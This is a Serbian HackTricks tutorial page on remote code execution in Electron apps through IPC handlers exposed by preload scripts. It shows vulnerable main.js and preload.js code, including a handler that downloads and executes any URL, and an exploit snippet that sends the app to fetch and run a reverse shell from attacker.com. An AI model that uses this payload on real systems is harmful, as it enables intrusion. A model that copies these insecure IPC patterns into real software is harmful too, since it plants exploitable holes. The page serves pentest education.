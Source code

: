 # Electron contextIsolation RCE via IPC

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite svoju **kompaniju reklamiranu na HackTricks-u** ili da **preuzmete HackTricks u PDF formatu** proverite [**PLANOVE ZA PRIJAVU**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**Porodicu PEASS**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitteru** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>

Ako preload skripta izlaže IPC endpoint iz main.js fajla, proces renderer-a će moći da mu pristupi i ako je ranjiv, RCE bi mogao biti moguć.

**Većina ovih primera je preuzeta sa ovog linka** [**https://www.youtube.com/watch?v=xILfQGkLXQo**](https://www.youtube.com/watch?v=xILfQGkLXQo). Pogledajte video za više informacija.

## Primer 0

Primer sa [https://speakerdeck.com/masatokinugawa/how-i-hacked-microsoft-teams-and-got-150000-dollars-in-pwn2own?slide=21](https://speakerdeck.com/masatokinugawa/how-i-hacked-microsoft-teams-and-got-150000-dollars-in-pwn2own?slide=21) (imate kompletan primer kako je MS Teams zloupotrebljen od XSS do RCE u tim slajdovima, ovo je samo veoma osnovan primer):

<figure><img src="../../../.gitbook/assets/image (9) (1).png" alt=""><figcaption></figcaption></figure>

## Primer 1

Proverite kako `main.js` osluškuje `getUpdate` i **preuzima i izvršava bilo koji URL** koji se prosledi.\
Takođe proverite kako `preload.js` **izlaže bilo koji IPC** događaj iz main-a.
```javascript
// Part of code of main.js
ipcMain.on('getUpdate', (event, url) => {
console.log('getUpdate: ' + url)
mainWindow.webContents.downloadURL(url)
mainWindow.download_url = url
});

mainWindow.webContents.session.on('will-download', (event, item, webContents) => {
console.log('downloads path=' + app.getPath('downloads'))
console.log('mainWindow.download_url=' + mainWindow.download_url);
url_parts = mainWindow.download_url.split('/')
filename = url_parts[url_parts.length-1]
mainWindow.downloadPath = app.getPath('downloads') + '/' + filename
console.log('downloadPath=' + mainWindow.downloadPath)
// Set the save path, making Electron not to prompt a save dialog.
item.setSavePath(mainWindow.downloadPath)

item.on('updated', (event, state) => {
if (state === 'interrupted') {
console.log('Download is interrupted but can be resumed')
}
else if (state === 'progressing') {
if (item.isPaused()) console.log('Download is paused')
else console.log(`Received bytes: ${item.getReceivedBytes()}`)
}
})

item.once('done', (event, state) => {
if (state === 'completed') {
console.log('Download successful, running update')
fs.chmodSync(mainWindow.downloadPath, 0755);
var child = require('child_process').execFile;
child(mainWindow.downloadPath, function(err, data) {
if (err) { console.error(err); return; }
console.log(data.toString());
});
}
else console.log(`Download failed: ${state}`)
})
})
```

```javascript
// Part of code of preload.js
window.electronSend = (event, data) => {
ipcRenderer.send(event, data);
};
```
Eksploatacija:
```html
<script>
electronSend("getUpdate","https://attacker.com/path/to/revshell.sh");
</script>
```
## Primer 2

Ako preload skripta direktno omogući rendereru da pozove `shell.openExternal`, moguće je dobiti RCE.
```javascript
// Part of preload.js code
window.electronOpenInBrowser = (url) => {
shell.openExternal(url);
};
```
## Primer 3

Ako preload skripta otkriva načine za potpunu komunikaciju sa glavnim procesom, XSS će moći da pošalje bilo koji događaj. Uticaj ovoga zavisi od toga šta glavni proces otkriva u pogledu IPC-a.
```javascript
window.electronListen = (event, cb) => {
ipcRenderer.on(event, cb);
};

window.electronSend = (event, data) => {
ipcRenderer.send(event, data);
};
```
<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite svoju **kompaniju reklamiranu na HackTricks-u** ili da **preuzmete HackTricks u PDF formatu** proverite [**PLANOVE ZA PRETPLATU**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**Porodicu PEASS**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitteru** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
